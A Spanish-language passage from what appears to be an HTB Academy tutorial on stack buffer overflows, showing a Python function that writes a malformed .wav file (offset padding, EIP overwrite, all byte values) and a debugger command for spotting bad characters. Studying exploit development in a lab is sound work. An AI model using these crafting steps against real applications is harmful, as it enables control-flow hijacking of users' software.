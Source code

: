 El siguiente paso sería generar un `.wav` archivo con la cadena de caracteres generada por `ERC`. Nuevamente escribiremos una nueva función `bad_chars()`, y usaremos un código similar a la `eip_control()` función, pero usaremos los caracteres bajo `C#`in `ByteArray_1.txt`. Crearemos una nueva lista de bytes `all_chars = bytes([])`, y pegaremos los caracteres entre los corchetes. Luego escribiremos en `chars.wav` el mismo `payload`from `eip_control()`, y agregaremos después `all_chars`. La función final se vería así:

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```
### Comparando nuestra entrada

Copiar la dirección de `ESP`ya que es donde se encuentra nuestra entrada. Esto lo podemos hacer haciendo clic derecho sobre ella y seleccionando `Copy value`, o haciendo clic en `[Ctrl + C]`:

![](../../Images/Pasted%20image%2020240925162653.png)

Una vez que tenemos el valor de `ESP`, podemos usarlo `ERC --compare`y darle la `ESP`dirección y la ubicación del `.bin`archivo que contiene todos los caracteres, de la siguiente manera:

```cmd-session
ERC --compare 0014F974 C:\Users\htb-tudent\Desktop\ByteArray_1.bin
```

Lo que hará este comando es comparar byte por byte tanto nuestra entrada `ESP`como todos los caracteres que generamos anteriormente en `ByteArray_1.bin`:

![](../../Images/Pasted%20image%2020240925162721.png)
